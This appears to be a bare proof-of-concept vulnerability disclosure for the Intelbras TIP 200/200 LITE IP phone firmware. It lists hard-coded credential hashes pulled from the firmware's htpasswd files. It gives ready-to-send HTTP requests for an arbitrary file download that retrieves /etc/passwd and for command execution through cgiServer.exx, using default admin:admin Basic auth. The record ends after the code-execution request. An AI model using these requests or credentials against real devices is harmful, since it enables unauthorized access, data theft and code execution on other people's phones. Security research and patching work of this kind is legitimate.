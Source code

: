 https://www.intelbras.com/pt-br/ajuda-download/download/terminal-ip-tip-200-lite


https://backend.intelbras.com/sites/default/files/integration/60.61.75.22.zip

iso version  60.61.75.22

TELEFONE IP TIP200/200 LITE


POC 1、Hard coding


factory/.htpasswd

user:s7C9Cx.rLsWFA
admin:uoCbM.VEiKQto
var:jhl3iZAe./qXM

data/htpasswd

admin:1U/4BN3Z1tgDM
user:1U/4BN3Z1tgDM



POC 2、Download any file

GET /cgi-bin/cgiServer.exx?download=/etc/passwd HTTP/1.1
Host: xx.xx.xx.xx
Authorization: Basic YWRtaW46YWRtaW4=
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3849.0 Safari/537.36
Accept: */*
Referer: http://xx.xx.xx.xx/cgi-bin/cgiServer.exx?page=Phone-Preference.htm
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
remote_addr: 154.91.1.210
Cookie: __utma=155145144.297897992.1596702813.1596702813.1614070409.2; __utmc=155145144; __utmz=155145144.1614070409.2.1.utmcsr=(direct)|utmccn=(direct)|utmcmd=(none); __utmb=155145144.31.9.1614075605123
Connection: close




HTTP/1.0 200 OK
Content-Type:application/octet-stream
Content-Disposition:attachment; filename="passwd"
Expires:-1
Accept-Ranges:bytes
Server:SIPPhone

root:x:0:0:Root,,,:/:/bin/sh
admin:x:500:500:Admin,,,:/:/bin/sh
guest:x:501:501:Guest,,,:/:/bin/sh



POC3、Code execution


GET /cgi-bin/cgiServer.exx?command=writeTextFile(%22/tmp/success.txt%22,%22%22)&sid=0.21719647863281333 HTTP/1.1
Host: xx.xx.xx.xx
Authorization: Basic YWRtaW46YWRtaW4=
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3849.0 Safari/537.36
Accept: */*
Referer: http://xx.xx.xx.xx/cgi-bin/cgiServer.exx?page=Status.htm
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
remote_addr: 154.91.1.210
Cookie: __utma=155145144.297897992.1596702813.1596702813.1614070409.2; __utmc=155145144; __utmz=155145144.1614070409.2.1.utmcsr=(direct)|utmccn=(direct)|utmcmd=(none); __utmb=155145144.2.9.1614070449605
Connection: close



